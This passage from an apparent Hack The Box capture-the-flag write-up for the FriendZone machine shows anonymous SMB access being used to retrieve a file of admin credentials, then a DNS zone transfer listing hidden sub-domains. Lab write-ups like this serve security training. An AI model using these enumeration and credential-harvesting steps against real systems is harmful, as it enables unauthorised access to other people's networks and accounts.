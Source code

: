 `creds.txt` looks interesting:

```
# smbclient -U "" //10.10.10.123/general

Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \> exit
root@ragingunicorn:~/htb/friendzone# cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Found some credentials: `admin` / `WORKWORKHhallelujah@#`

### Sub-domains enumeration

Now that I have credentials, I just need to find where to use them.

I can do a zone transfer for that domain I saw earlier on the main page and get the list of all sub-domains:

```
# host -t axfr friendzone.red 10.10.10.123
Trying "friendzone.red"
Using domain server:
Name: 10.10.10.123
Address: 10.10.10.123#53
Aliases: 

;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56850
;; flags: qr aa; QUERY: 1, ANSWER: 8, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;friendzone.red.			IN	AXFR

;; ANSWER SECTION:
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800

Received 250 bytes from 10.10.10.123#53 in 12 ms
```

I'll add those entries to my local `/etc/hosts`.

### Upload page
